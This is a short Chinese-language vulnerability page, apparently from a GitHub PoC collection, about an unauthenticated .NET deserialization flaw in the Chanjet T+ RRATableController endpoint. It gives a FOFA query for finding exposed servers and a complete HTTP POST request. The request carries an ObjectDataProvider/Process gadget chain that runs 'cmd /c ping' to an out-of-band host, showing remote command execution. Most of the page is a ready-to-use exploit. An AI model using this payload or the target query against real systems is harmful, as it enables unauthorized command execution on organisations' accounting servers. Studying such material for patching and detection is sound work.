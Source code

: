 ## 用友畅捷通RRATableController存在反序列化漏洞

用友畅捷通 T+ /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.RRATableController,Ufida.T.DI.UIP.ashx接口存在.net反序列化漏洞，未经过身份认证的攻击者可以通过构造恶意的序列化请求在目标服务器上执行任意命令。


## fofa
```
app="畅捷通-TPlus"
```

## poc
```
POST /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.RRATableController,Ufida.T.DI.UIP.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ping bfygdwmtkk.dgrh3.cn"
       }
    }
  }
}
```

![6bb2469b6a58fb49ed786d38aa95cab3](https://github.com/wy876/POC/assets/139549762/559f3c66-5885-4de8-97dc-382dc49ef810)
